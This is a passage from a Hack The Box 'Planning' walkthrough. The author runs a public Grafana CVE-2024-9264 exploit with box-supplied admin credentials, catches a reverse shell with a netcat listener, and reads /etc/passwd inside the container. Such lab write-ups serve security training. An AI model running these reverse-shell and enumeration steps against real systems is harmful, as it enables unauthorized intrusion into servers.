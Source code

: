 We found a `Proof of Concept (PoC)` exploit which required `authentication`. In order to pull it off we used the `username` and `password` given by the box creator.

- [https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit](https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit)

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Planning/files]
└─$ git clone https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit.git
Cloning into 'CVE-2024-9264-RCE-Exploit'...
remote: Enumerating objects: 15, done.
remote: Counting objects: 100% (15/15), done.
remote: Compressing objects: 100% (15/15), done.
remote: Total 15 (delta 6), reused 4 (delta 0), pack-reused 0 (from 0)
Receiving objects: 100% (15/15), 5.73 KiB | 488.00 KiB/s, done.
Resolving deltas: 100% (6/6), done.
```

```shell
┌──(kali㉿kali)-[/media/…/Machines/Planning/files/CVE-2024-9264-RCE-Exploit]
└─$ python3 poc.py --url http://grafana.planning.htb/ --username admin --password 0D5oT70Fq13EvB5r --reverse-ip 10.10.16.37 --reverse-port 9001
[SUCCESS] Login successful!
Reverse shell payload sent successfully!
Set up a netcat listener on 9001
```

And right after we executed the exploit we received the callback.

```shell
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.16.37] from (UNKNOWN) [10.129.182.30] 37980
sh: 0: can't access tty; job control turned off
#
```

## Enumeration (Container)

We got a shell as `root` which was an indicator that we dropped into a `container`.

```shell
# id
uid=0(root) gid=0(root) groups=0(root)
```

We only found one more user called `grafana` which was `not allowed` to `login`.

```shell
# cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
```